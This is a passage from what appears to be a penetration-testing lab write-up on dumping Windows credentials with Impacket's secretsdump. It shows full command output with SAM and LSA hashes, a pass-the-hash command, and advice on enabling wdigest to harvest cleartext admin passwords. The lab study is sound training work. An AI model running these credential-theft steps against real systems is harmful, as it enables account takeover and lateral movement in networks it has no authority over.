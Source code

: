 ```
 0010   FA 1B FD D7 34 19 60 CA  4C A7 C8 6F 2C 6B 9E C9   ....4.`.L..o,k..
 0020   A6 5C 01 EC 71 D1 07 C7  3D 5D 70 EC E9 C9 A7 74   .\..q...=]p....t
 0030   AD 34 51 33 26 AB 5A 52  3B C9 D3 3A 14 C7 9D 86   .4Q3&.ZR;..:....
NL$KM:38e3a785c55877172f56ec298acf671dfa1bfdd7341960ca4ca7c86f2c6b9ec9a65c01ec71d107c73d5d70ece9c9a774ad34513326ab5a523bc9d33a14c79d86
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

We always want to capture the SAM hashes, particularly those of any
administrator account and any other user, but not the `DefaultAccount`, `Guest`
and `WDAGUtilityAccount`. It is always worth capturing the respective hashes
since we never know where they might work. It is also worth to capture the
`DCC2` hashes and to try to crack them since we might get the password of a
domain administrator. If passwords on the system were stored in the `registry`,
we would see them in clear text towards the end of the output. There is an old
protocol named `wdigest` that runs by default on older Windows versions (up to
Windows 8 and Windows 2012 Server). In the meantime it is disabled by default.
If we got access to an older Windows machine with `wdigest` enabled and a
domain admin has been logged in to this machine, the password will show up at
the end of the output in clear text! Also passwords from machine auto-logons
will be displayed in clear text.

**Note:** It is possible to switch `wdigest` on if it is switched off, then wait
until an admin logs in, and to then steal his credentials (called a **watering
hole attack**). In a pentest, we need to make sure that we switch `wdigest` off
again before we leave, otherwise we have created a new vulnerability.

We can also dump secrets using a password hash instead of an actual password
with `secretsdump.py administrator:@10.0.2.4 -hashes <NTLM hash value>`. This
works on both user machines, `10.0.2.4 (SPIDERMAN)` and `10.0.2.6
(THEPUNISHER)`:

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ cat 10.0.2.4_samhashes.sam 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
                                                                                                                            
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ secretsdump.py administrator:@10.0.2.4 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x54c9af8a432c81a94876693eea660525
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
```